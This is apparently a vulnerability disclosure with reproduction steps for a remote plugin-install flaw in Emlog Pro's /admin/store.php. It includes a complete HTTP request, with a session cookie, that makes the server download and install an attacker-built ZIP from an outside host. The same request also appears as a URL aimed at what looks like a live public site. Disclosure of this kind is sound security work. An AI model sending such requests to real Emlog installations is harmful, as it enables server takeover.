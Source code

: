 # Emlog Pro <= 2.5.9 has a file upload vulnerability
##### Vulnerability Location: /admin/store.php
##### Affected Range: <= Emlog Pro 2.5.9
##### Vulnerability Cause: The store.php component contains a critical security flaw where it fails to properly validate the contents of remotely downloaded ZIP plugin files. This insufficient validation allows attackers to execute arbitrary code on the vulnerable system.
##### Vulnerability Impact: Full Server Takeover
##### Link:https://github.com/emlog/emlog/releases/tag/pro-2.5.9

# Vulnerability recurrence
Download the source code, using phpstudy structures, environment, the interface is as follows:

<img width="1105" alt="image" src="https://github.com/user-attachments/assets/e4ee2f05-0c44-4fc7-9ae2-7a23d5e007c5" />

Log in to the background to grab data packets and obtain Cookie information.Local host starts http service:

<img width="1093" alt="image" src="https://github.com/user-attachments/assets/bae62b05-6b93-47b2-872d-52a6cb1c8816" />

Here is a constructed malicious zip packet:

<img width="1096" alt="image" src="https://github.com/user-attachments/assets/8d2aa04a-14d6-47e3-afd6-470607c8da0a" />

Folder name: test_plugin, php script file name: test_plugin, and the final compressed package is:

<img width="400" alt="image" src="https://github.com/user-attachments/assets/7292c3e3-c0d2-4537-8c45-55ab3fe916f7" />

Construct the packet for remote plug-in download:
```
GET /admin/store.php?action=install&cdn_source=http://192.168.20.186:8087/test_plugin.zip&type=zip&source=1 HTTP/1.1
Host: 10.211.55.4:82
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://10.211.55.4:82/admin/blogger.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Cookie: EM_AUTHCOOKIE_UQ2YAjeQk9zyxkO70SX5UZGn1DAa8aHt=admin%7C0%7Ccda059d0dc84704de2377a0c2dba5306; PHPSESSID=oqdpbog0gu1jebnqi7c3h1svc6
Priority: u=0, i
```
URL address: `https://www.xkqq.top/admin/store.php?action=install&cdn_source=http://192.168.20.186:8087/test_plugin.zip&type=zip&source=1`

<img width="1150" alt="image" src="https://github.com/user-attachments/assets/def267e9-93b5-4c24-a84d-de64cbf20603" />
